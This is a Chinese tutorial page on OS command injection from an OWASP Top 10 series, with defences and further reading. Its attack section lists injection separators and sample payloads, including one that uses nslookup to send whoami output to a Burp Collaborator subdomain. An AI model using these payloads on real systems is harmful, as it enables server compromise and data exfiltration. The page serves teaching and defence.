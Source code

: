 ```yaml
---
description: OWASP-TOP10 漏洞
---
```


# 😀 命令注入

## 介绍

命令注入漏洞是一种允许攻击者在运行应用程序的服务器上执行任意操作系统命令，攻击者通过会利用此漏洞来破坏基础设施的其他部分，利用信任关系将攻击转向组织内的其他系统

## 影响

根据应用程序运行的权限，造成不同的影响

## 攻击

### 1. 插入特殊字符来检测分割符

```shell
&
;
换行符 (0x0a or \n)
&&
|
||
```

```shell
# 正常的 HTTP 请求
https://vulnerable-website.com/endpoint?parameter=123

# payload
https://vulnerable-website.com/endpoint?parameter=1|whoami
```

### 2. 时间延迟

> 大多数操作系统命令注入都是盲注，不会为我们产生任何输出，我们可以使用时间延迟来验证命令注入

```shell
# ping -c 10 127.0.0.1
https://vulnerable-website.com/endpoint?parameter=x||ping+-c+10+127.0.0.1||
```

### 3. 重定向输出

> 我们可以将注入命令的输出重定向到 WEB 根目录的一个文件中，然后访问它

```shell
https://vulnerable-website.com/endpoint?parameter=12||whoami>/var/www/images/output.txt||
```

### 4. 使用 OAST 进行操作系统命令注入

**payload**：使用`Burp Collaborator Client`

```shell
注入点=x||nslookup+burpcollaborator.net||
```

payload

```shell
注入点=||nslookup+`whoami`.YOUR-SUBDOMAIN-HERE.burpcollaborator.net||
```

## 防御

> 到目前为止，防止操作系统命令注入漏洞的最有效方法是永远不要从应用层代码中调用操作系统命令。
>
> 在很多情况下，都有使用更安全的平台API实现所需功能的替代方法。

如果使用用户提供的输入向操作系统命令发出呼叫被认为是不可避免的，则必须执行强输入验证。有效验证的一些示例包括：

* 对准允许值的白名单进行验证。
* 验证输入是一个数字。
* 验证输入仅包含字母数字字符，没有其他语法或空白。

## 参考文章

* [操作系统命令注入](https://portswigger.net/web-security/os-command-injection)
* [狼组安全团队公开知识库](https://wiki.wgpsec.org/knowledge/web/cmd\_injection.html)

## 提升

* [命令注入漏洞介绍-上](https://www.freebuf.com/articles/web/276503.html)
* [命令注入漏洞介绍-下](https://www.freebuf.com/articles/web/276505.html)
